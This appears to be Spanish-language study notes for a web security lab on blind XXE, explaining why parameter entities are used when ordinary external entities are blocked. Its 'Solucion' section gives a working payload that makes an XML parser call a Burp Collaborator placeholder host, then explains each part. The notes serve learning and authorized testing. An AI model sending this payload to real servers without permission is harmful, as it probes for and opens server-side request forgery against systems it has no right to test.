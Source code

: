 En esta clase continuamos con la explotación de vulnerabilidades XXE ciegas, utilizando una variante más sofisticada. En este caso, la aplicación bloquea las entidades externas tradicionales, lo que nos obliga a recurrir al uso de parameter entities, una técnica menos común pero igualmente poderosa.

El objetivo es forzar al analizador XML a realizar una solicitud externa, y para ello empleamos Burp Collaborator como canal para observar si el servidor realiza conexiones salientes. Si vemos actividad en Collaborator después de enviar nuestra carga, confirmamos la vulnerabilidad.

Este enfoque es especialmente útil en entornos donde se han implementado filtros para mitigar las XXE básicas, pero aún persisten configuraciones inseguras que pueden ser explotadas con técnicas más avanzadas.

Solucion
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
### 🧩 Explicación de cada parte:

1. **`<!DOCTYPE stockCheck [...]>`**
    
    - Se define un `DOCTYPE` llamado `stockCheck`. El nombre no importa mucho, solo es requerido para declarar entidades DTD (Document Type Definition).
        
2. **`<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">`**
    
    - Se declara una **entidad externa de parámetro** llamada `%xxe`.
        
    - El valor de esta entidad es lo que devuelve la URL: `http://BURP-COLLABORATOR-SUBDOMAIN`
        
    - Esta URL pertenece a **Burp Collaborator**, una herramienta que permite detectar interacciones salientes desde servidores vulnerables.
        
3. **`%xxe;`**
    
    - Aquí se **invoca la entidad de parámetro** `%xxe`.
        
    - Cuando el parser XML trata de expandirla, hace una **solicitud HTTP a la URL especificada**.
        
    - Si el servidor realiza esa petición, el atacante (usando Burp Collaborator) lo detecta, confirmando la vulnerabilidad.
Este payload:

- Usa **entidades de parámetro** para forzar al servidor a conectarse a un servidor externo (como Burp Collaborator).
    
- Sirve para detectar si el servidor es **vulnerable a XXE + SSRF**.
    
- Es una técnica usada comúnmente en **pruebas de seguridad** (pentesting).

![[Pasted image 20250730195232.png]]
